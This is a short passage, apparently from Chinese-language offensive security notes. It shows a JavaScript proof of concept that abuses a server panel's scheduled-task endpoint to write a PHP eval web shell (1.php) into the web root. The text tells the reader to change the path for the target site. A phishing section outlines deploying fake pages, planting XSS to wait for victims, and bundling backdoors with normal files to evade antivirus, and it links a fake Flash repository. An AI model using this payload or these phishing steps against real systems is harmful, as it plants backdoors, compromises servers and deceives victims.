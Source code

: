 ```js
}

function save(){

  var data=new Object();

  data.task_id="";

  data.title="test";

  data.exec_cycle="1";

  data.week="1";

  data.day="3";

  data.hour="14";

  data.minute = "20";

  data.shell='echo "<?php @eval($_POST[123]);?>" >C:/xp.cn/www/wwwroot/admin/localhost_80/wwwroot/1.php';

  $.post('/service/app/tasks.php?type=save_shell',data,function(res){

    poc();

  },'json');

}

save();
```
这段代码也就是创建一个系统定时任务，这个任务会向指定的地方去创建一个后门文件(1.php)
注意：这个地址要根据要攻击网站来进行修改







## 网络钓鱼

1、部署可访问的钓鱼页面并修改

2、植入XSS代码等待受害者触发

3、将后门及正常文件捆绑打包免杀

https://github.com/r00tSe7en/Fake-flash.cn

## 溯源综合

